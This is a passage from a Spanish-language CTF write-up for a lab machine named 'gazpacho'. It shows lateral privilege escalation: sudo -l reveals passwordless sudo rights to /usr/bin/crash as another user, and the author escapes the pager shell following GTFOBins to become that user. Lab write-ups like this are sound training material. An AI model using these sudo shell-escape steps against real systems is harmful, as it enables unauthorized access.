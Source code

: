 Este usuario tampoco tiene alguna pista o algo que nos ayude.

Veamos qué privilegios tiene:
```bash
cebolla@gazpacho:~$ sudo -l
Matching Defaults entries for cebolla on gazpacho:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User cebolla may run the following commands on gazpacho:
    (pimiento) NOPASSWD: /usr/bin/crash
```

Busquemos en la **guía de GTFOBins** cómo podemos abusar del **binario crash**, para escalar privilegios y convertirnos en el **usuario pimiento**:
* <a href="https://gtfobins.github.io/gtfobins/crash/" target="_blank">GTFOBins: crash</a>

Ocuparemos el siguiente comando:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura13.png">
</p>

Aplicaremos otra vez un **Shell Escape**.

Primero, usemos el comando que nos meterá a un manual:
```bash
cebolla@gazpacho:~$ sudo -u pimiento crash -h
```

Ahora, escapemos del manual de ayuda:

<p align="center">
<img src="/assets/images/THL-writeup-gazpacho/Captura14.png">
</p>

Observa la terminal:
```bash
pimiento@gazpacho:/home/cebolla$ 
pimiento@gazpacho:/home/cebolla$ whoami
pimiento
pimiento@gazpacho:/home/cebolla$ cd ../pimiento/
pimiento@gazpacho:~$
```
Ahora somos el **usuario pimiento**.

